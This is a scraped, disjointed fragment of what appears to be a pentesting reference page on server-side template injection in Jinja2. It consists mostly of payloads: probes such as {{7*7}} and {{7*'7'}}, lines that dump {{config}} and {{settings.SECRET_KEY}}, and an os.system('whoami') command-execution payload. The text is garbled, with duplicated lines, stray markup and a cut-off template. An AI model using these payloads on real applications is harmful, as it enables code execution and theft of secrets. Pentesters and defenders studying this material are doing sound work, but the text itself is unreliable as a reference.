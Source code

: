​

{% import os %}{{os.system('whoami')}}

{{os.system('whoami')}}

**More information**

## 

Jinja2 (Python)[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python)

​[Official website](http://jinja.pocoo.org/)​

> Jinja2 is a full featured template engine for Python. It has full unicode support, an optional integrated sandboxed execution environment, widely used and BSD licensed.

-   `{{7*7}} = Error`
    

-   `${7*7} = ${7*7}`
    

-   `{{foobar}} Nothing`
    

-   `{{4*4}}[[5*5]]`
    

-   `{{7*'7'}} = 7777777`
    

-   `{{config}}`
    

-   `{{config.items()}}`
    

-   `{{settings.SECRET_KEY}}`
    

-   `{{settings}}`
    

-   `<div data-gb-custom-block data-tag="debug"></div>`
    

{% debug %}

​

​

​

{{settings.SECRET_KEY}}

{{4*4}}[[5*5]]

{{7*'7'}} would result in 7777777

**Jinja2 - Template format**

{% extends "layout.html" %}

{% block body %}
